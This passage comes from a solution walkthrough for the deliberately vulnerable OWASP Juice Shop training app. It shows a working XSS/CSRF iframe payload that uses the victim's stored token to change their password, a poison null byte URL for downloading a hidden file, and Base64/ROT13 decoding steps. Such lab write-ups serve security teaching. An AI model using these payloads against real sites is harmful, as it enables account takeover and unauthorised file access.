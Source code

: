 <http://localhost:3000/#/search?q=%3Ciframe%20src%3D%22javascript%3Axmlhttp%20%3D%20new%20XMLHttpRequest%28%29%3B%20xmlhttp.open%28%27GET%27%2C%20%27http%3A%2F%2Flocalhost%3A3000%2Frest%2Fuser%2Fchange-password%3Fnew%3DslurmCl4ssic%26amp%3Brepeat%3DslurmCl4ssic%27%29%3B%20xmlhttp.setRequestHeader%28%27Authorization%27%2C%60Bearer%3D%24%7BlocalStorage.getItem%28%27token%27%29%7D%60%29%3B%20xmlhttp.send%28%29%3B%22%3E>

Pretty-printed this attack is easier to understand:

```html
<iframe src="javascript:xmlhttp = new XMLHttpRequest();
   xmlhttp.open('GET', 'http://localhost:3000/rest/user/change-password?new=slurmCl4ssic&amp;repeat=slurmCl4ssic');
   xmlhttp.setRequestHeader('Authorization',`Bearer=${localStorage.getItem('token')}`);
   xmlhttp.send();">
</iframe>
```

Anyone who is logged in to the Juice Shop while clicking on this link
will get their password set to the same one we forced onto Bender!

:clap: Kudos to Joe Butler, who originally described this kind of CSRF
payload in his blog post
[Hacking(and automating!) the OWASP Juice Shop](https://incognitjoe.github.io/hacking-the-juice-shop.html).

### :warning: Find the hidden easter egg

1. Use the _Poison Null Byte_ attack described in
   [Access a developer's forgotten backup file](#access-a-developers-forgotten-backup-file)...
2. ...to download <http://localhost:3000/ftp/eastere.gg%2500.md>

### :warning: Apply some advanced cryptanalysis to find the real easter egg

1. Get the encrypted string from the `eastere.gg` from the
   [Find the hidden easter egg](#find-the-hidden-easter-egg) challenge:
   `L2d1ci9xcmlmL25lci9mYi9zaGFhbC9ndXJsL3V2cS9uYS9ybmZncmUvcnR0L2p2Z3V2YS9ndXIvcm5mZ3JlL3J0dA==`
2. Base64-decode this into
   `/gur/qrif/ner/fb/shaal/gurl/uvq/na/rnfgre/rtt/jvguva/gur/rnfgre/rtt`
3. Trying this as a URL will not work. Notice the recurring patterns
   (`rtt`, `gur` etc.) in the above string
4. ROT13-decode this into
   `/the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg`
5. Visit
   <http://localhost:3000/the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg>
